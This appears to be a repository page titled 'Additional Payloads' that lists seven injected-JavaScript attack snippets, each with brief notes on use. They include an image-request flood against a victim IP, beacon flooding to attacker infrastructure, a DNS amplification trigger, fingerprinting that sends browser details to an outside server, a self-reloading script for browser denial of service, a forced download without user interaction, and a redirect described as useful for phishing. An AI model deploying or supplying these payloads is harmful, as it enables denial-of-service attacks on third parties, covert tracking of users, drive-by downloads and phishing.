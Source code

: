 # Additional Payloads 

## 🔁 1. Massive <img> Bomb (Reflection DDoS)

Same as the original concept, scaled up or randomized.
```
<script>
  for (let i = 0; i < 300; i++) {
    let img = new Image();
    img.src = "http://YOUR.VICTIM.IP/img" + i + ".jpg";
  }
</script>
```
Vary User-Agent, path, or query to bypass caching.



---

## 🔄 2. Beacon Flooding (Tracking or C2 Simulation)
```
<script>
  for (let i = 0; i < 100; i++) {
    fetch("http://yourbeaconserver.com/ping?i=" + i);
  }
</script>
```
Simulates browser-based callbacks to attacker infra.

Can be extended to POST device/browser info.



---

## 📡 3. DNS Amplification Trigger

If you have control over a DNS resolver:
```
<script>
  let img = new Image();
  img.src = "http://your-open-resolver:53/?dns=spoofeddomain.com";
</script>
```
This causes clients to resolve spoofed domains, potentially aiding in DNS reflection experiments.



---

## 🧪 4. Browser Fingerprinting via JS
```
<script>
  fetch("http://yourserver/fingerprint?" + 
    "ua=" + navigator.userAgent + 
    "&lang=" + navigator.language +
    "&screen=" + screen.width + "x" + screen.height);
</script>
```
Useful for passive client profiling during proxy use.



---

## ⛓ 5. Recursive Self-Loading Payload
```
<script>
  setInterval(() => {
    let s = document.createElement("script");
    s.src = "/loop.js?" + Math.random();
    document.body.appendChild(s);
  }, 100);
</script>
```
Simulates runaway JS or denial of service on the browser side.



---

## ⚠️ 6. Auto-Download Payload
```
<script>
  let a = document.createElement("a");
  a.href = "http://yourserver/file.zip";
  a.download = "file.zip";
  a.click();
</script>
```
Initiates a forced download without user interaction.



---

## 🎯 7. Malicious Redirect
```
<script>
  window.location = "http://attacker-controlled-site.com";
</script>
```
Classic redirect — useful for phishing or traffic diversion simulation.

